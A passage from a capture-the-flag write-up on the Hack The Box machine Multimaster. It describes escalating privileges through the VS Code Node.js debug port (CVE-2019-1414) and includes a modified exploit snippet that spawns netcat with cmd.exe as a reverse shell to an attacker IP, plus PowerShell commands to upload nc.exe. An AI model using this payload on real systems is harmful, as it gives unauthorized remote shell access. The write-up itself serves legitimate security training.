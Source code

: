 Now I can log in to the server from my Windows VM:

![](/assets/images/htb-writeup-multimaster/winrm_alcibiades.png)

## Priv esc from alcibiades to cyork

Alcibiades doesn't have any special privileges and he's just a member of the `Domain Users` group and the `Remote Management Users`. I did notice that there was some odd ports listening on localhost when I checked out the `netstat` output.

![](/assets/images/htb-writeup-multimaster/netstat.png)

The ports did seem to change every few minutes because when I re-ran the command I got different results. This pointed me in the direction of some scheduled task running in the background.

![](/assets/images/htb-writeup-multimaster/netstat2.png)

Checking the list of running processes I noticed that the VS Code application was running. When I checked the output a few times I saw that the PID was changing so I assumed this was the scheduled task running. I tried listing the scheduled tasks from Powershell but my user didn't have sufficient privileges.

![](/assets/images/htb-writeup-multimaster/getprocess.png)

Phra from the Donkeys HTB team has a [blog post](https://iwantmore.pizza/posts/cve-2019-1414.html)  CVE-2019-1414 which lets users get local execution by using the debug port on the VS Code Node.js server.

In a nutshell, the debug port is bound to random TCP port everytime the application starts. Since I already had a shell on the machine I could watch the output of the netstat command and see what port is currently in use.

I won't paste the entire nodejs PoC since it's already in the blog post but I did change the `spawnSync` arguments since the PoC was using using bash and Multimaster is a Windows box. It took me a while to figure out that forward slashes were required. I didn't want to get bogged down in bypassing AV or AMSI so I just called netcat that I had uploaded onto the box.

```javascript
socket.send(JSON.stringify({
      id: 3,
      method: 'Runtime.evaluate',
      params: {
        expression: `spawnSync('/programdata/nc.exe', ['-e', 'cmd.exe', '10.10.14.30', '80'])`
      }
    }))
```

To upload file with WinRM on Windows you can do the following:

```powershell
$sess = new-pssession multimaster.megacorp.local
copy-item -path nc.exe -destination c:\programdata\nc.exe -tosession $sess
```

Because the port was only listening on localhost, I had to get some port-forwarding going. I could have used a Meterpreter shell but instead opted for chisel in SOCKS proxy mode.
